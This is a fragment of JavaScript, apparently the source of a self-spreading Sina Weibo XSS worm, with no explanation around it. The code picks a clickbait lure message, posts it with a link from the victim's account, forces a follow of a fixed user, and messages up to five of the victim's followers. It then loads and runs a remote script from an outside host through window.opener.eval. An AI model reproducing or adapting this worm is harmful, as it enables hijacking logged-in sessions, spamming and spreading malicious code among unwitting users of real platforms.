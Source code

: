 ```
'郭美美事件的一些未注意到的细节：',
'建党大业中穿帮的地方：',
'让女人心动的 100 句诗歌：',
'3D 肉团团高清普通话版种子：',
'这是传说中的神仙眷侣啊：',
'惊爆!范冰冰艳照真流出了：',
'杨幂被爆多次被潜规则:',
'傻仔拿锤子去抢银行：',
'可以监听别人手机的软件：',
'个税起征点有望提到 4000：']; 
var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
    msg = encodeURIComponent(msg); 
return msg;
}
function post(url,data,sync){
    xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; 
    post(url,data,true);
}
function follow(){
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}
function message(){
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; 
    ids = getappkey(url); 
    id = ids.split('||'); 
for(i=0;i<id.length - 1 & i<5;i++){
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
        msg = random_msg();
        msg = encodeURIComponent(msg);
        user = encodeURIComponent(encodeURIComponent(id[i]));
        data = 'content=' + msg + '&name=' + user + '&retcode=';
        post(msgurl,data,false);  
    }
}
function main(){
try{
        publish(); 
    }
catch(e){}
try{
        follow(); 
    }
catch(e){}
try{
        message(); 
    }
catch(e){}
}
try{
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
```